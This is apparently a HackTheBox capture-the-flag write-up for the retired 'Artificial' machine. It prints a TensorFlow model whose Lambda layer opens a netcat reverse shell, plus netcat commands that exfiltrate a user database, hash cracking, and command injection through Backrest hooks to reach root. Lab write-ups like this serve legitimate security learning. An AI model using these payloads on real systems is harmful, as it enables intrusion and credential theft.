HTB: Artificial
Artificial Machine is a retired machine, and its difficulty is easy

So Artificial is an easy Linux Machine that what we want to solve this time. It took me 2 days to complete this box. Lets start hacking!
Reconnaissance
- Start with the nmap scan with the given IP to find out open ports.
1 2 3 4 5 6 7 8 9 10 11 12 13 14
nmap -sV -vv 10.10.xx.xx -oA /Artificial/nmap # Nmap 7.97 scan initiated Sat Jul 5 16:06:41 2025 as: nmap -sV -vv -oA nmap 10.10.11.74 2 │ Nmap scan report for artificial.htb (10.10.11.74) 3 │ Host is up, received syn-ack (0.035s latency). 4 │ Scanned at 2025-07-05 16:06:41 +07 for 7s 5 │ Not shown: 998 closed tcp ports (conn-refused) 6 │ PORT STATE SERVICE REASON VERSION 7 │ 22/tcp open ssh syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0) 8 │ 80/tcp open http syn-ack nginx 1.18.0 (Ubuntu) 9 │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 10 │ 11 │ Read data files from: /usr/bin/../share/nmap 12 │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 13 │ # Nmap done at Sat Jul 5 16:06:48 2025 -- 1 IP address (1 host up) scanned in 7.14 seconds
- The result, show that only port 22 and port 80 are opened.
- First, add target’s IP address
10.10.xx.xxto /etc/hosts.sudo echo '10.10.xx.xx artificial.htb' >> /etc/hostsEnumeration
- Start navigating the website, to see what is the website is about.
- It looks like something related, to Machine Learning. i manually explored the website, and come across a python code related to machine learning training model. This is a sample not meaningful of real machine learning. It is a hint for us. ```python import numpy as np import pandas as pd import tensorflow as tf from tensorflow import keras from tensorflow.keras import layers

np.random.seed(42)
Create hourly data for a week
hours = np.arange(0, 24 * 7) profits = np.random.rand(len(hours)) * 100
Create a DataFrame
data = pd.DataFrame({ ‘hour’: hours, ‘profit’: profits })
X = data[‘hour’].values.reshape(-1, 1) y = data[‘profit’].values
Build the model
model = keras.Sequential([ layers.Dense(64, activation=’relu’, input_shape=(1,)), layers.Dense(64, activation=’relu’), layers.Dense(1) ])
Compile the model
model.compile(optimizer=’adam’, loss=’mean_squared_error’)
Train the model
model.fit(X, y, epochs=100, verbose=1)
Save the model
model.save(‘profits_model.h5’)
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
- So i registered an account to log in.

- We can upload a model. What i'm thinking here if we can upload an malicious model. So i googled about RCE with tensorflow. I used Deepseek LLM to generate a python code to generate a exploit.h5 in order to get reverse shell on the server.
### Tensorflow RCE
```python
import tensorflow as tf
import os
def exploit(x):
import os
os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.xx.xx 4444 >/tmp/f")
return x
model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
- The code above is used to generate a malicious model called exploit.h5. Don’t forget to modify your host IP, and port.
- I used uv with Cpython 3.8 venv to install tensorflow and run the code to generate
exploit.h5.Exploitation
Reverse Shell
- Then go back to the website, and uploading our malicious model
exploit.h5,
- As you can see, we are able to successfully upload our malicious model. So next is setup the listener on our host.
1
ncat -lvnp 4444
- Then click on View Predictions on the website.

- Gyah, we got in the web server.
- After we got in the server what i will do first is to see what is our current user. So we are app user.
- View /etc/passwd file if there is any other users.

Linpeas
- Beside user app there is another username “gael”. We need to move to gael in order to get the user flag. So i tried to run linpeas to find interesting files or misconfiguration.

- I’m hosting a simple HTTP server on our host to transfer the linpeas.sh to the target machine. and start execute linpeas.
- On target machine:
1 2
chmod +x linpeas.sh # add execute permission to linpeas.sh ./linpeas.sh # execute the script
- The result of Linpeas doesn’t have any misconfiguration, instead i found a sqlite file called users.db in the instance directory under app directory which is the website itself.

- Lets transfer it from target machine to our host. I used netcat again for the transferring.
- On our machine:
1
ncat -lvnp 4445 > users.db
- On target machine:
- make sure you are in /instance directory.
1
nc 10.10.xx.xx 4445 < users.db
- Once we execute it on target machine, it appears like this you can Control+C to cancel and you will see users.db on your host.

- We found password hash of user gael which is existed on the target machine. and i know it is a MD5 hash, since i view the source code of app.py.
- Now lets copy and crack the MD5 hash.
- I used hashcat to crack with rockyou.txt wordlist. and we get gael’s password. Now lets SSH to the target as gael since we know that the server also has port 22 opened.
1
ssh gael@10.10.xx.xx
- We got user flag. Now lets move on to find a way to root user.
Privilege Escalation
- First try
sudo -lto see if gael has any sudo privilege to run any tools. Sadly, gael is not in sudoers. - Second option which is run linpeas again. Linpeas is so powerful. It does everything to find out the flaws in the system for you, when you can sit and drink matcha waiting for the results.
Linpeas
- The result displayed, i look carefully, and saw something interesting backup tar archive in /var/backup. And an interesting port 9898 hosting a service.

- It seems like sysadm group can read this tar archive, so i check gael’s group.

- gael also in group sysadmin, so we can read this archive. extract this archive and output it on gael home directory.
1
tar -xf backrest_backup.tar.gz -C ~/
- Backrest is a web UI and orchestrator for restic backup.
- There is a hidden dir called .config that contains a config.json file that store username and bcrypt password hash that encoded with Base64.

- Decode the hash and echo it into a file on our host.

- Crack it with hashcat or john. I prefer hashcat with GPU acceleration.

- We successfully cracked the hash.
Port Forwarding
- Since we know that a service running on port 9898. Lets do port forwarding to allow our host to visit target’s server on port 9898.
- Use the following command on our host: ```bash ssh -N -L 9898:localhost:9898 gael@10.10.xx.xx


Enter the password of gael
```
- Now visit http://localhost:9898 on our host machine. We will see a login form of backrest UI.
- Use the username from config.json of backrest and a password we just cracked.
Command Injection
- After reading docs, and with the help of LLM, we can do command injection to get reverse shell or read the content of root.txt directly with hook that run script with the same permission as backup service (this means root).

- That is where we inject our command. Don’t forget to generate the password and Submit.

- Go to our repo we just created. then click on “Prune now”

- Bomb we get root flag. now submit the answer and we Artificial has been pwned!
- Thanks guys, for reading my writeup!, my English grammar is broken, So, don’t mind my knowledge and grammar mistakes.